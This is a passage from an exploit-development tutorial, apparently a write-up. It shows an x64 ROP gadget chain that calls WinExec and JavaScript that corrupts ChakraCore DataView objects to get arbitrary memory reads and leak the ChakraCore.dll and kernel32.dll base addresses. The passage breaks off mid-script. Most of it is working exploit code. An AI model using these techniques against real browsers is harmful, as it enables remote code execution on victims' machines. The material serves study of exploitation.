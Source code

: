 ```
pop rdx ; ret
<0 as the second parameter> (placed into RDX)

pop rax ; ret
<WinExec address> (placed into RAX)

jmp rax ; ret (call kernel32!WinExec)
```

The above gadgets will fill RDX with our last parameter, and then place `WinExec` into RAX. Here is how we update our final script.

```javascript
    (...)truncated(...)

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // dataview1 methods act on dataview2 object
    // Since vftable is located from 0x0 - 0x8 in dataview2, we can simply just retrieve it without going through our read64() function
    vtableLo = dataview1.getUint32(0x0, true);
    vtableHigh = dataview1.getUint32(0x4, true);

    // Extract dataview2->type (located 0x8 - 0x10) so we can follow the chain of pointers to leak a stack address via...
    // ... type->javascriptLibrary->scriptContext->threadContext
    typeLo = dataview1.getUint32(0x8, true);
    typeHigh = dataview1.getUint32(0xC, true);

    // Print update
    print("[+] DataView object 2 leaked vtable from ChakraCore.dll: 0x" + hex(vtableHigh) + hex(vtableLo));

    // Store the base of chakracore.dll
    chakraLo = vtableLo - 0x1961298;
    chakraHigh = vtableHigh;

    // Print update
    print("[+] ChakraCore.dll base address: 0x" + hex(chakraHigh) + hex(chakraLo));

    // Leak a pointer to kernel32.dll from from ChakraCore's IAT (for who's base address we already have)
    iatEntry = read64(chakraLo+0x17c0000+0x40, chakraHigh);     // KERNEL32!RaiseExceptionStub pointer

    // Store the upper part of kernel32.dll
    kernel32High = iatEntry[1];

    // Store the lower part of kernel32.dll
    kernel32Lo = iatEntry[0] - 0x1d890;

    // Print update
    print("[+] kernel32.dll base address: 0x" + hex(kernel32High) + hex(kernel32Lo));

    // Leak type->javascriptLibrary (lcoated at type+0x8)
    javascriptLibrary = read64(typeLo+0x8, typeHigh);

    // Leak type->javascriptLibrary->scriptContext (located at javascriptLibrary+0x450)
```